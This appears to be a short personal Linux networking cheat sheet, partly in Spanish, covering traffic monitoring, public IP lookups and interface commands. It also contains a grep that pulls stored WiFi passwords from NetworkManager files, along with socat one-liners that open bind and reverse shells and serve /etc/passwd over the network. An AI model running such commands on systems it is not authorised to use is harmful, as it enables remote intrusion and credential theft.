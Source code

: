 # Networking


ip2route suite


Monitoring

    iftop

    tcpdump

    netstat -tuln

    ss -tuln

    dmesg | grep -i net

    nload

    bmon

Ver dirección IP Pública

    curl ifconfig.me
    curl -4 -s https://ifconfig.me
    curl -s https://api.ipify.org
    curl -s https://checkip.amazonaws.com


    ip addr
    ip a
    hostname -I ; -i
    ip -s -s neigh flush all  (limpiar ARP cache)



    ls -lha /etc/NetworkManager/system-connections/*
    grep -i 'psk' /etc/NetworkManager/system-connections/* (Obtener WIFI passwords)
    
    nmcli connection show

    

## tcpdump


    tcpdump -i eth0 -nn -e

    


## Connections

    REVERSE_IP=$(hostname -I | tr -d " ")

    socat TCP-LISTEN:4444 EXEC:/bin/bash
    socat TCP-LISTEN:5555 SYSTEM:"id"
    socat TCP-CONNECT:192.168.1.100:4444 EXEC:/bin/sh
    socat TCP-LISTEN:6666 EXEC:"cat /etc/passwd"


    ss


